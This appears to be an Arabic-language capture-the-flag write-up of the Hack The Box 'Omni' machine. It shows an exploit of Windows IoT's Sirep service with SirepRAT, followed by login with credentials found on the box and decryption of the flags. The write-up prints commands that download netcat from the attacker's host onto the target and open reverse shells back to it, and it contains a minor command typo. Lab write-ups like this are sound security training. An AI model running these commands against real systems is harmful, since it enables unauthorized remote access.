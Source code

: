 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/


![Desktop View](/img/omn/O.jpeg)



 السلام عليكم  

> *Sammmry:*

   
iot  بعد جمع المعلومات نجد ان الماشين 

 sirepart نقوم ياستغلالها ب rce نقوم بالبحث في جوجل نجد 

من خلاله نجد كلمات سر نقوم باستعمالها للحصول على صلاحيات يوزر

administratorثم صلاحيات  


عبر windows device portal 


- 1 Recon
   - 1.1 Nmap
   - 1.2 Port
- 2 sireprat
- 3 user
   - 3.1 creeds
   - 3.2 User shell
   - 3.3 User flag
- 4 Administrator
   - 4.1 Administrator shell
   - 4.2 Root flag

## 1 Recon

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```
![Desktop View](/img/omn/1.png)

نجد بورت 80 مفتوح

### 1.2 Port

port نقوم بتصفح

![Desktop View](/img/omn/2.png)

 windows divice portal عند فتح السيرفر نلاحظ

iot server نبحث عنها في جوجل  نجد انها عبارة عن

  rce ونجد انها مصابة ب
 

![Desktop View](/img/omn/3.png)

## 2 sireprat
                              من هناsireprat نحمل 
     https://github.com/SafeBreach-Labs/SirepRAT



Python server على جهازنا ونشعل netcat نقوم بتحميل

```
Python -m SimpleHTTPServe 80

```

serverعلى nc.exe نقوم برفع

![Desktop View](/img/omn/4.png)

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.212:8000/nc64.exe" --v
```

نقوم بالاستغلال باستخدام الامر التالي

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -e cmd 10.10.14.212 1234" --v 
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```

![Desktop View](/img/omn/5.png)

![Desktop View](/img/omn/6.png)

## 3 user

### 3.1 creeds
بعد عملية البحث داخل السيرفر نجد كلمات سر في المسار 

c:\Program Files\WindowsPowershell\Modules\PackageManagement

في ملف
r.bat

![Desktop View](/img/omn/7.png)

نسخدم هذه المعطيات لدخول الى 

http://10.10.10.204/8080

![Desktop View](/img/omn/8.png)

Processes>RunCommandنذهب الى



![Desktop View](/img/omn/9.png)

### 3.2 User shell

nc نقوم بالاتصال بجهازنا عبر 

```
C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -e cmd 10.10.14.212 4444
```

الخاص بك ip غير 10.10.14.212 ب 

![Desktop View](/img/omn/10.png)

### 3.3 User flag

ب user flag  نسحب

```
$credential = Import-CliXml -Path U:\Users\app\user.txt
$credential.GetNetworkCredential().Password 
```

![Desktop View](/img/omn/11.png)

## 4 Administrator

نقوم مرة اخرى بالدخول باستتخدام كلمة سر 

administrator

```
C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -e cmd 10.10.14.212 5555
```
### 4.1 Administrator shell



![Desktop View](/img/omn/12.png)


### 4.2 Root flag

ب flag نسحب

```
$credential = Import-CliXml -Path U:\Users\administrator\root.txt
$credential.GetNetworkCredential().Password
```

![Desktop View](/img/omn/13.png)



